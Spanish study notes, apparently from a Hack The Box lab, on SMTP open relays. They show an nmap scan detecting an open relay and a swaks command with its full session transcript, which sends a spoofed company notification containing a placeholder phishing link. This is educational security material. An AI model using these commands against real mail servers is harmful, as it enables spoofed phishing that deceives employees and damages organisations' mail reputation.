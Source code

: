 
---

## Ataques específicos del protocolo
Un open relay es un servidor SMTP que está mal configurado y acepta reenviar (relay) correo de cualquier remitente a cualquier destinatario sin pedir autenticación ni verificar que el remitente pertenece a su dominio.
En otras palabras: cualquiera puede usar ese servidor para enviar correos desde cualquier dirección hacia cualquier destino.

Oculta el origen del correo. Si yo uso un open relay para enviar from: ceo@empresa.com a empleado@empresa.com, el correo parece venir del servidor relay, no de mi equipo.
Facilita el phishing y el spam. Los atacantes pueden enviar grandes volúmenes de correos fraudulentos (phishing/spam) que aparentan venir de la organización objetivo.
Si un servidor actúa como relay abierto, su IP puede terminar en listas negras (blacklists), perjudicando la entrega legítima de correo de la organización.

nmap nos puede decir si tal servidor presenta dicha vulnerabilidad:
```shell-session
Polika4RM@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Y podremos conectarnos haciendo uso de:

```shell-session
Polika4RM@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
```